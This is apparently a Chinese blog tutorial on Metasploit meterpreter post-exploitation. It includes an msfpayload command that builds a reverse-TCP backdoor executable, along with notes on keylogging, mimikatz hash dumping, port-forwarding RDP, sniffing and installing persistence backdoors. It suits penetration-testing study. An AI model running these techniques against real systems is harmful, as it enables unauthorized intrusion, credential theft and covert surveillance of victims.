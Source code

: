 # metasploit 渗透测试笔记(meterpreter篇)

0x01 背景
-------

* * *

meterpreter作为后渗透模块有多种类型，并且命令由核心命令和扩展库命令组成，极大的丰富了攻击方式。 需要说明的是meterpreter在漏洞利用成功后会发送第二阶段的代码和meterpreter服务器dll，所以在网络不稳定的情况下经常出现没有可执行命令，或者会话建立执行help之后发现缺少命令。 连上vpn又在内网中使用psexec和bind_tcp的时候经常会出现这种情况，别担心结束了之后再来一次，喝杯茶就好了。

0x02 常用类型
---------

* * *

### reverse_tcp

path : payload/windows/meterpreter/reverse_tcp

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.130 LPORT=8080 X > ～/Desktop/backdoor.exe

```

![enter image description here](http://drops.javaweb.org/uploads/images/5f68b3abb5316ddd9ba6cf0366c37b94c08e2d1a.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/633e67d29988988d2b2d04ff4330ec4b3029ccdd.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/8e7bb3e135505c47ae716a13cb8e54551833977d.jpg)

反向连接shell,使用起来很稳定。需要设置LHOST。

### bind_tcp

path : payload/windows/meterpreter/bind_tcp

正向连接shell，因为在内网跨网段时无法连接到attack的机器，所以在内网中经常会使用，不需要设置LHOST。

### reverse_http/https

path:`payload/windows/meterpreter/reverse_http/https`

通过http/https的方式反向连接，在网速慢的情况下不稳定，在某博客上看到https如果反弹没有收到数据，可以将监听端口换成443试试。

0x03 基本命令
---------

* * *

![enter image description here](http://drops.javaweb.org/uploads/images/65842b41416332f54633132aa90732a9ec95df0a.jpg)

常用的有

```
background：将当前会话放置后台
load/use：加载模块
Interact：切换进一个信道
migrate：迁移进程
run：执行一个已有的模块，这里要说的是输入run后按两下tab，会列出所有的已有的脚本，常用的有autoroute,hashdump,arp_scanner,multi_meter_inject等。
Resource：执行一个已有的rc脚本。

```

0x04 常用扩展库介绍
------------

* * *

![enter image description here](http://drops.javaweb.org/uploads/images/2e08bf5a0474e83a5ae13a3d43ca2af24ba28b78.jpg)

meterpreter中不仅有基本命令还有很多扩展库，load/use之后再输入help，就可以看到关于这个模块的命令说明了。

stdapi command
--------------

### 文件相关

stdapi中有关于文件读写，上传下载，目录切换，截屏，摄像头，键盘记录，和系统相关的命令。 常用的当然就是文件操作及网络有关的命令。 通常我会用upload和download进行文件上传和下载，注意在meterpreter中也可以切换目录，当然也可以编辑文件。所以就不用运行shell再用echo写。

![enter image description here](http://drops.javaweb.org/uploads/images/22eb166125aa9e5db2b1c2826eb5a0a4809d8daf.jpg)

使用edit命令时需要注意编辑的是一个存在的文件，edit不能新建文件。 输入edit + 文件后就会调用vi编辑了。

![enter image description here](http://drops.javaweb.org/uploads/images/e94cf4844452335240617b3b81d78faa0f51f2c0.jpg)

### 网络相关

网络命令则有列出ip信息(ipconfig),展示修改路由表(route),还有端口转发(portfwd)。 比如portfwd：

![enter image description here](http://drops.javaweb.org/uploads/images/67dd63a15cff89f74c03e2d4ba97ac0926d4ddc3.jpg)

在建立规则之后就可以连接本地3344端口，这样远程的3389端口就转发出来了。

### 键盘监听

![enter image description here](http://drops.javaweb.org/uploads/images/ce766b5fc19fbe985913a30ae1327685887de6de.jpg)

这里需要注意一下windows会话窗口的概念，windows桌面划分为不同的会话(session)，以便于与windows交互。会话0代表控制台，1，2代表远程桌面。所以要截获键盘输入必须在0中进行。可 以使用getdesktop查看或者截张图试试。否则使用setdesktop切换。

![enter image description here](http://drops.javaweb.org/uploads/images/79ee07a061116efdf8b00caac89b059e5d091861.jpg)

如果不行就切换到explorer.exe进程中，这样也可以监听到远程桌面连接进来之后的键盘输入数据。

### mimikatz

这个不多介绍，只是因为这样抓到的hash可以存进数据库方便之后调用，不知道有没有什么方法可以快速的用第三方工具抓到hash/明文然后存进数据库。

![enter image description here](http://drops.javaweb.org/uploads/images/d25c86671f29e72eccd606d3a90321aa5a2ff1e8.jpg)

这里是因为我的用户本身就没有密码。

### sniffer

![enter image description here](http://drops.javaweb.org/uploads/images/7c0ce79d937c1ec0c42f1673a2d9c9b7299c5d42.jpg)

就是不知道能不能把包保存在victim上，然后后期再下下来，待实战考证。

0x05使用自定脚本
----------

* * *

这里的脚本可以是rc脚本，也可以是ruby脚本，metasploit已经有很多自定义脚本了。比如上面说过的arp_scanner,hashdump。这些脚本都是用ruby编写，所以对于后期自定义修改来说非常方便，这里介绍一个很常见的脚本scraper，它将目标机器上的常见信息收集起来然后下载保存在本地。推荐这个脚本是因为这个过程非常不错。可以加入自定义的命令等等。

![enter image description here](http://drops.javaweb.org/uploads/images/fe45a61371b1799c295ccbe097584a42e53cf5fa.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/2a18205deb0e6895632653cf58e723567138f534.jpg)

`/.msf4/logs/`下保存了所有脚本需要保存的日志记录，当然不只这一个脚本。同样.msf4文件夹下还保存了其他东西，比如输入过的命令，msf运行过程的日志等。 Scraper脚本将保存结果在`/.msf4/logs/scripts/scraper/`下。

0x06 持续性后门
----------

* * *

metasploit自带的后门有两种方式启动的，一种是通过服务启动(metsvc)，一种是通过启动项启动(persistence) 优缺点各异:metsvc是通过服务启动，但是服务名是meterpreter,脚本代码见图，

![enter image description here](http://drops.javaweb.org/uploads/images/2178691b12f190e88cc1fb55770a4376c20c15aa.jpg)

这里需要上传三个文件，然后用metsvc.exe 安装服务。不知道服务名能不能通过修改metsvc.exe达到。 安装过程和回连过程都很简单

![enter image description here](http://drops.javaweb.org/uploads/images/d650b50c9b5121aeaa62f7df0d5b9faef75d2aa9.jpg)

下次回连时使用windows/metsvc_bind_tcp的payload就可以。

![enter image description here](http://drops.javaweb.org/uploads/images/5907af099e580dfd9ba70b5571d950c58d938385.jpg)

0x07 后记
-------

* * *

meterpreter提供了很多攻击或收集信息的脚本，并且还有很多API(具体参考官方文档)，及扩展。在对ruby代码理解的程度上，如果能根据目标环境和现状修改现有脚本或编写自己的脚本则能够极大的提高效率，获得预期的结果。
